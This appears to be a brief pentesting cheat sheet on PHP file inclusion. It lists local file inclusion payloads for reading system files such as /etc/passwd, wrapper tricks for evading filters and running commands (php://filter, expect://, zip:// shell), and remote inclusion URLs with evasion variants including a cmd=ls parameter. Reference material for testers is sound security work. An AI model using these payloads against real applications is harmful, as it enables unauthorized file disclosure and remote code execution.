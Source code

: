 # File Inclusion

## Local File Inclusion (LFI)

### Linux LFI Payloads

```
/etc/passwd
```

### Windows LFI Payloads

```
/windows/win.ini
```

### LFI Evasion Filters

```
php://filter/convert.base64-encode/resource=/path/to/file
php://input
data://text//plain;base64,<base64_encoded_payload>
expect://<os_command>
zip://file.jpg%23shell.php
```

## Remote File Inclusion (RFI)

### URL Payloads

```
https://cirt.net/rfiinc.txt
https://rfi.nessus.org/rfi.txt
```

### RFI Evasion

```
HTTps://cirt.net/rfiinc.txt
https://cirt.net/rfiinc.txt?
https://cirt.net/rfiinc.txt??
https://cirt.net/rfiinc.txt?%00&cmd=ls
```

---
## References

- [Hacktricks: PHP - Useful Functions & disable_functions/open_basedir bypass](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass)

- [PayloadsAllTheThings: File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

- [PinoyWH1Z: SSH-Private-Key-Looting-Wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists)

- [0xffsec Handbook File Inclusion and Path Traversal](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/)

- [Cobalt: A Pentester's Guide to File Inclusion](https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion)

- [Malicious.link: Simple PHP webshell with php filter chains](https://room362.com/posts/2023/simple-php-webshell-with-php-filter-chains/)

- [Certcube: Cheatsheet – LFI & RCE & Webshells](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-webshells/)
